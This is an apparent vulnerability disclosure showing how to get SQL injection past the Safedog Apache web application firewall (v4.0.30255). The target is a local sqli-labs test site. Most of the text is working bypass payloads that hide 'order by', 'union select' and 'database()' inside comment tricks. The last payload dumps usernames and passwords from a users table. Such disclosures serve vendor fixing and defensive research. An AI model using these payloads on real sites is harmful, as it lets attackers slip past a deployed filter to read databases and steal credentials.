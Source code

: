 Update：2021.10.25
​

# SQL injection bypass vulnerability exists in website security dog (APACHE) v4.0.30255 of Xiamen Fuyun Information Technology Co., Ltd


# 1. Version information


The latest version of safe dog Apache client official website: [http://free.safedog.cn/](http://free.safedog.cn/)
​

Download address: [http://free.safedog.cn/website_](http://free.safedog.cn/website_) safedog.html
​

Influence product: Apache version v4.0.30255 of website security dog of Xiamen Fuyun Information Technology Co., Ltd
​

![image.png](./images/7e0f6.png)


# 2. bypass injection
Install the program on windows server2012, install phpstudy2018, and deploy sqli labs website
​

![image.png](./images/d260d.png)




Normal link: `​[http://192.168.126.154/sqli/Less-1/?id=1](http://192.168.126.154/sqli/Less-1/?id=1)`
![image.png](./images/04dc4.png)




## 2.1 Bypass keywords：order by


`[http://192.168.126.154/sqli/Less-1/?id=1'](http://192.168.126.154/sqli/Less-1/?id=1') order by 1 --+`   
At this time, it is intercepted by the safedog
​

![image.png](./images/cf77d.png)




use  bypass keywords: `order /*//--/*/ by 121 --+ `
​

`[http://192.168.126.154/sqli/Less-1/?id=1'](http://192.168.126.154/sqli/Less-1/?id=1') order /*//--/*/ by 121 --+`
​

![image.png](./images/823b5.png)
Successfully bypassed keyword order by
## 2.2 Bypass keywords: union select 


The same method: `Union / * / / -- / * / select 1,2,3--+`


![image.png](./images/0b468.png)






## 2.3  Bypass keywords: database()


intercepted：
![image.png](./images/5105e.png)


bypass ：
​

`[http://192.168.126.154/sqli/Less-1/?id=-1'](http://192.168.126.154/sqli/Less-1/?id=-1') union /*//--/*/ /*!--+/*%0aselect/*!1,2,*/database /*//--/*/ () --+`




![image.png](./images/3f381.png)
## 2.4 Get all data
`[http://192.168.126.154/sqli/Less-1/?id=-1'](http://192.168.126.154/sqli/Less-1/?id=-1')  union /*!--+/*%0aselect/*!1,2,*/  group_concat(concat_ws(0x7e,username, password))     /*!from*/    security.users --+`
​

![image.png](./images/a1c84.png)
​

